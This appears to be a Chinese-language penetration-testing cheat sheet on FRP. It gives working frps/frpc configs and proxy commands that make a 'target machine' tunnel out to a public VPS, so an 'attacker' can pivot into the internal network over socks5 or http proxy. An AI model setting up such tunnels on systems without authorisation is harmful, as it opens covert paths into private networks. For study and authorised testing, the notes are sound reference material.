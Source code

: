 # Frp

---

## 介绍

```
支持tcp、udp、http、https、socker5
tcp、udp、socker5需要公网IP
http、https需要证书和域名
作用： 反向代理、端口转发
```

## 下载地址

```
https://github.com/fatedier/frp/releases
```

## 版本选择

```
ftp-版本-系统-cpu
---
系统：
darwin -》mac
linux  -》centos、redhat、ubuntu等
freebsd -》UNIX   
windows -》 windows
---
cpu架构：（https://blog.csdn.net/lixuande19871015/article/details/98613711）
386	X86架构
amd64	amd架构
arm	arm架构
arm64	64位arm架构  aarch64
mips	mips架构
mips64	64位mips架构
mipsle	mipsle架构
mips64le	64位mipsle架构

使用名称查看linux 架构：
arch

```


## 操作


| 对象    | IP          | 反向代理                                                     |
| ------- | ----------- | ------------------------------------------------------------ |
| 公网VPS | 10.10.10.1  | ./frps -c frps.ini       (chmod 755 *  #给权限) <br/>#frps.ini---------------------------<br/>[common]<br/>bind_addr=0.0.0.0<br/>bind_port = 7088<br/>#------------------------------------ |
| 目标机  | 192.168.1.1 | frpc.exe -c frpc.ini<br/>#frpc.ini---------------------------<br/>[common]server_addr = 10.10.10.1<br/>server_port = 7088 <br/>[sock5-proxy]<br/>type = tcp<br/>remote_port = 3004<br/>plugin = socks5    \| 或   plugin = http_proxy<br/>plugin_http_user = user1<br/>plugin_http_passwd = 1qaz2wsx  <br/>#------------------------------------ |
| 攻击者  | 192.168.2.1 | #任何协议均可连接socket5<br/>代理设置：http:// 10.10.10.1: 3004    socket5 |





| 对象    | IP          | 转发（操作）及规则文件内容                                   |
| ------- | ----------- | ------------------------------------------------------------ |
| 公网VPS | 10.10.10.1  | ./frps -c frps.ini       (chmod 755 *  #给权限)<br/>#frps.ini---------------------------<br/>[common]# 验证连接监听地址<br/>bind_addr=0.0.0.0<br/># 验证连接端口bind_port = 7088<br/># web统计后台账号<br/>dashboard_user = user1<br/># web统计后台密码<br/>dashboard_pwd = oUcOEDq3VGAxoW5Xoz51<br/># web统计后台端口dashboard_port = 7500<br/># token验证token = 8d262f2b-6dba-4a8d-857e-8a53d1d439e2<br/>#--------------------------- |
| 目标机  | 192.168.1.1 | frpc.exe -c frpc.ini<br/>#frpc.ini---------------------------<br/>[common]server_addr = 10.10.10.1<br/>server_port = 7088token = 8d262f2b-6dba-4a8d-857e-8a53d1d439e2 <br/># http代理<br/>[http_proxy]<br/>type = tcp<br/>remote_port = 6000<br/>#配置http代理的简单认证<br/>plugin = http_proxy<br/>plugin_http_user = user1<br/>plugin_http_passwd = 1qaz2wsx  <br/># ssh设置代理 或者远程桌面<br/>#[ssh]<br/>#type=tcp<br/>#local_ip = 127.0.0.1<br/>#local_port = 22<br/>#remote_port = 6000<br/>#启用加密#use_encryption = true<br/>#启用压缩#use_compression = true  <br/># web服务设置代理<br/>#[web]#type = http<br/>#local_port = 80<br/>#custom_domains = www.xxxx.com<br/>#--------------------------- |
| 攻击者  | 192.168.2.1 | 设置代理为VPS x.x.x.1:6000 进行验证用户密码即可通过代理进行访问内网得访问<br/>#cmd----------------------------------------------<br/>set http_proxy=http:// x.x.x.1:6000<br/>set http_proxy_user=user1<br/>set http_proxy_passwd=1qaz2wsx <br/>#web----------------------------------------------<br/>http:// 10.10.10.1:6000  user1 / 1qaz2wsx |

